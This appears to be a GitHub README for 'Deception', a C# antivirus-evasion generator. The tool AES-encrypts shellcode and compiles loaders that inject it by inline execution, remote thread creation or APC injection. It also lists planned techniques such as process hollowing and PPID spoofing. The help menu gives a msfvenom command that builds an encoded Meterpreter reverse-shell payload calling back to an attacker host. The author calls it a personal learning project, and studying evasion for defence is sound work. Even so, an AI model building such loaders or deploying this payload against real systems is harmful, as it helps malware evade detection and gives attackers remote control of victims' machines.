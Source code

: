 # Deception
Simple AV Evasion Generator for me to learn evasion techniques

### Overview
Current
1. Deception will read in a file containing shellcode
2. Encrypt it with AES 256 using random key & iv and Base 64 encode
3. This is then placed into a generated source file using a given injection method (in help below) and compiled

Later versions will incorporate
- Move Project to Visual Studio
- More techniques
    - Process Injection
        - Process Hollow
        - Thread Hijack
        - ...
    - Misc
        - PPID Spoofing
        - BlockDlls
        - Module Stomping
        - ...
- Do above techniques with
    - both shellcode and dlls
    - kernel32 and ntdll.dll (direct syscalls)
    - In other languages (C++, Nim, ...)

### Usage
```
# Compile
sudo apt install mono-devel
mcs -out:Deception.exe -pkg:dotnet Utils/* Services/* Models/*  Modules/*  Deception.cs
# Run
./Deception.exe
```

#### Help Menu
```
Usage: 
  ./Deception.exe msf.bin -i       # for inline
  ./Deception.exe msf.bin -t       # for inline: CreateThread
  ./Deception.exe msf.bin -r       # for remote: CreateRemoteThread via given PID
  ./Deception.exe msf.bin -s       # for remote: Spawn notepad.exe and Queue APC inject
  ./Deception.exe msf.bin -a       # makes all of the above
Payload Examples: 
   msfbin: msfvenom -p windows/x64/exec -f raw CMD=calc.exe -o msf.bin
   msfbin: msfvenom -p windows/x64/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 LHOST=192.168.0.1 LPORT=8080 -f raw -o msf.bin
```

#### Usage Example
![Usage](./Images/deception.png)

### Extras
<details>
<summary>Structure</summary>

Deception.cs - Main Program

Models/
- Module.cs - Enum for Types, Base Class for Modules, and Default Header + Footer

Modules/
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

ModuleSource/ - Source files for each Module (for Testing a technique and then porting to a Module)
- Inline.cs
- Inline_NewThread.cs
- Remote_CreateRemoteThread.cs
- Spawn_QueueAPC.cs

Payloads/
- d71a2331-af9f-4397-bb34-f502c62db7f2.cs  - example generated source file
- d71a2331-af9f-4397-bb34-f502c62db7f2.exe - compiled above file

Services/
- CommandService.cs   - For suggested commands to run payload
- CompilerService.cs  - Compiles generated source
- DeceptionService.cs - Main Service responsible for managing the full deception process
- GeneratorService.cs - Generates a source (encryption calls happen here)
- WriteService.cs

Utils/
- Crypto.cs   - AES and Encoding
- Kernel32.cs - Kernel32 API
</details>